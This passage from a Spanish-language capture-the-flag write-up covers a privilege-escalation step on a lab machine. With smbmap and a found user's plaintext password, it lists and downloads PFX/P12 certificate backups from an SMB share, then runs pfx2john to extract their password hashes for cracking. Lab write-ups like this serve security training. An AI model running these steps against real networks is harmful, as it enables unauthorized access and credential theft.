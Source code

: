 <figure><img src="../../../../../.gitbook/assets/2583_vmware_vBHQXB39tX.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Playing with FFX certificates

Revisando los recursos copartidos del nuevo usuario "Sierra.Frye" revisamos que en la carpeta de "Downloads" hay una carpeta llamado Backups" que dispone de 2 archivos PFX que se tratan de certificados de navegador.

{% code overflow="wrap" %}
```bash
smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$/Sierra.Frye/Downloads'

smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' -r 'RedirectedFolders$/Sierra.Frye/Downloads/Backups'
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/2584_vmware_Inqq7VjV2L.png" alt=""><figcaption></figcaption></figure>

Procederemos a descargar estos dos archivos a través de **smbmap** y a renombrarlos.

{% code overflow="wrap" %}
```bash
smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' --download 'RedirectedFolders$/Sierra.Frye/Downloads/Backups/search-RESEARCH-CA.p12'

smbmap -H 10.10.11.129 --no-banner -u 'Sierra.Frye' -p '$$49=wide=STRAIGHT=jordan=28$$18' --download 'RedirectedFolders$/Sierra.Frye/Downloads/Backups/staff.pfx'

mv 10.10.11.129-RedirectedFolders_Sierra.Frye_Downloads_Backups_search-RESEARCH-CA.p12 search-RESEARCH-CA.p12

mv 10.10.11.129-RedirectedFolders_Sierra.Frye_Downloads_Backups_staff.pfx staff.pfx
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/2585_vmware_h1XNxJTQyk.png" alt=""><figcaption></figcaption></figure>

Si probamos de importar estos certificados a nuestro navegador, nos pide credenciales.

<figure><img src="../../../../../.gitbook/assets/2587_vmware_W7oMrZ2Ao0.png" alt="" width="516"><figcaption></figcaption></figure>

Debido que estos archivos disponen de credenciales que no disponemos, procederemos a través de **pfx2john** de guardarnos el hash de las contraseñas de estos archivos.

```bash
pfx2john search-RESEARCH-CA.p12 > hash.txt

pfx2john staff.pfx > hash2.txt
```
